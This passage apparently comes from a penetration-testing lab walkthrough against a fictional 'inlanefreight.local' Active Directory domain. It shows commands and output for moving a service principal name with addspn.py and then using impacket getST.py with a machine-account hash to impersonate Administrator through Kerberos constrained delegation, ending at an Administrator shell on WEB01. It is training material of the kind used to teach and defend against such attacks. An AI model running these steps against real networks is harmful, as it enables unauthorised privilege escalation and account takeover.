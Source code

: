 ```shell
             TERMSRV/DBSRV003
             ...SNIP...

[+] SPN Modified successfully

```

It's a good practice to take note of the SPNs we cleared as we need to restore then later. We will save them in a file named DBSRV003spns.txt.

```shell
cat DBSRV003spns.txt
dmserver/DBSRV003.inlanefreight.local
dmserver/DBSRV003
WSMAN/DBSRV003
...SNIP...

```

Next, we need to add the SPN into our target machine, `WEB01`. Let's use the option `--spn 'dmserver/DBSRV003'` to add the new SPN to our target machine with the option `-t 'WEB01$'`:

```shell
proxychains4 -q python3 addspn.py 172.16.92.10 -u 'inlanefreight.local\gabriel' -p Godisgood001 --spn 'dmserver/DBSRV003' -t 'WEB01$' -dc-ip 172.16.92.10
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully

```

With the SPN pointing to our target, we can impersonate a high-privileged user. Using [getST.py](https://github.com/fortra/impacket/blob/master/examples/getST.py), we request a service ticket, impersonating the `Administrator`. We need to make sure to set the options `-spn 'dmserver/DBSRV003'` to specify the SPN we will use to request the ticket, `-impersonate Administrator` to specify the account we want to impersonate, and set the account we will use to perform the ticket request. In this case, `SRV01` is the machine account with the rights to request the ticket so that we can specify the hash instead of a password.

```shell
proxychains4 -q getST.py -spn 'dmserver/DBSRV003' -impersonate Administrator 'inlanefreight.local/SRV01$' -hashes :ef3d150ee77eb9000001236c52bd2793 -dc-ip 172.16.92.10
Impacket v0.12.0.dev1+20240327.181547.f8899e65 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@[email protected]

```


[WEB01]: PS C:\Users\Administrator.INLANEFREIGHT\Documents> whoami;hostname